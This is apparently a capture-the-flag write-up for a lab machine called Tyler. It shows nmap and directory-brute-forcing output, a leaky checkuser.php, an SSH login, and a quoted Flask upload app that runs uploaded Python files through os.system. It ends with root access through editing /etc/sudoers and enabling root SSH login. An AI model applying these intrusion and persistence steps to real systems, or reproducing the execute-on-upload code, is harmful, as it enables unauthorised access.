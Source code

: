 # Vincent's Tyler KOTH writeup

## Recon

### nmap

```text
# sh recon.sh 10.10.172.202
Host is up.
Starting Nmap 7.80 ( https://nmap.org )
[...]
Not shown: 992 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) PHP/7.3.16)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
3306/tcp open  mysql       MariaDB (unauthorized)
5000/tcp open  http        Werkzeug httpd 1.0.0 (Python 3.6.8)
8080/tcp open  http        nginx 1.16.1
9999/tcp open  abyss?
Service Info: Host: TYLER

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.87 seconds
           Raw packets sent: 1103 (48.508KB) | Rcvd: 1022 (40.912KB)
```

### Gobuster

```text
# gobuster dir -u 10.10.172.202 -w /usr/share/wordlists/rockyou.txt -x php,txt -t 100
===============================================================
/upload (Status: 301)
```

Looking at a regular gobuster, there's nothing useful. I uploaded php\_reverse\_shell.php but I couldn't find where it was uploaded.

### alert.txt

```text
cat alert.txt 
Let's keep things interesting... X8JEETQmf3hkS65f
```

### dirsearch.py

```text
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
./dirsearch.py -u http://tyler.thm/ -w /usr/share/wordlists/rockyou.txt -e html,txt
/betatest/
```

From here we find something called checkuser.php. Typing in tdurden replies with:

```text
tdurden:x:1000:1000::Tyler Durden:/home/tdurden/bin/bash tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
```

Typing narrator gives us:

```text
narrator:x:1002:1002::/home/narrator:/bin/bash narrator/:x:1002:1002::/home/narrator/:/bin/bash
```

## SSH

ssh into narrator

```text
# ssh narrator@tyler.thm
narrator@tyler.thm's password: 
Last login: Thu Mar 26 10:52:23 2020 from cyberdyne
[narrator@tyler ~]$
```

### app.py

```text
#!/usr/bin/python3

import os
from flask import Flask, flash, request, redirect, render_template
from werkzeug.utils import secure_filename
UPLOAD_FOLDER = './uploads'

app = Flask(__name__)
app.secret_key = "secret key"
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
app.config['MAX_CONTENT_LENGTH'] = 16 * 1024 * 1024


ALLOWED_EXTENSIONS = set(['txt', 'pdf', 'png', 'jpg', 'jpeg', 'gif', 'py'])

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

@app.route('/')
def upload_form():
    return render_template('upload.html')

@app.route('/', methods=['POST'])
def upload_file():
    if request.method == 'POST':
        # check if the post request has the file part
        if 'file' not in request.files:
            flash('No file part')
            return redirect(request.url)
        file = request.files['file']
        if file.filename == '':
            flash('No file selected for uploading')
            return redirect(request.url)
        if file and allowed_file(file.filename):
            filename = secure_filename(file.filename)
            file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
            os.system('/usr/bin/python3 ' + os.path.join(app.config['UPLOAD_FOLDER'], filename))
            flash('File successfully uploaded')
            return redirect('/')
        else:
            flash('Allowed file types are txt, pdf, png, jpg, jpeg, gif, py')
            return redirect(request.url)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

### Privilege Escalation

```text
[narrator@tyler ~]$ vim /etc/sudoers
```

From here, you add narrator to the sudoers file:

```text
narrator    ALL=(ALL)    ALL
:wq!
```

After this, you type sudo -i to get to root.

## After root

```text
vim /etc/ssh/sshd_config
```

Go to `PermitRootLogin` and change the parameter from `no` to `yes`.

```text
:wq! # Save your work
```

